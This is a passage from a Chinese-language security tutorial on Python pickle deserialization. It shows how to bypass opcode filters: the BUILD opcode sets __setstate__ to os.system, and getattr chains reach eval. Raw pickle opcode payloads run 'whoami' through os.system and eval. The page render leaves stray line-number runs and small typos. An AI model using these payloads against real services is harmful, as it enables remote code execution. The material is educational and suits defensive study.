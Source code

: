 ```python
return User

#拼接opcode：将第一个pickle流结尾表示结束的.去掉，两者拼接起来即可
#建立普通的类时，可以先pickle.dumps，再拼接至payload
```

###### 绕过方式

###### 绕过R指令限制

b指令在注释中的描述为：`call __setstate__ or __dict__.update()` ，即执行`__setstate__`或者更新栈上的一个字典进行变量覆盖
 如果一个类，没有定义`__setstate__`方法，但在反序列化时通过b操作符用`{"__setstate__": os.system}`来初始化类的对象。

初始是没有定义`__setstate__`，所以这里b操作码实际上执行了`__dict__.update()`，给对象设置了一个恶意的`__setstate__`方法。把命令（whoami）作为参数，再次执行`BUILD`指令，由于此时对象存在`__setstate__`方法，`state`为`whomai`，`setstate(state)`相当于执行`os.system('whoami')`

```python
(c__main__
Animal
S'Casual'
I18
o}(S"__setstate__" 
cos
system
ubS"whoami"
b.'''
123456789
```

###### 绕过c指令module限制

如同模板注入当中的命令执行一样通过`getattr()`获取对象的属性值，来一步步的获取`eval`函数

```python
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
dict_get=getattr(dict,'get')
glo_dic=GLOBAL('builtins','globals')()
builtins=dict_get(glo_dic,'builtins')

eval=getattr(builtins,'eval')
eval('whoami')
return
#############################################
builtins.getattr(
builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)
#############################################
cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'eval'
tR(S'__import__("os").system("whoami")'
tR.
1234567891011121314151617181920212223242526
```
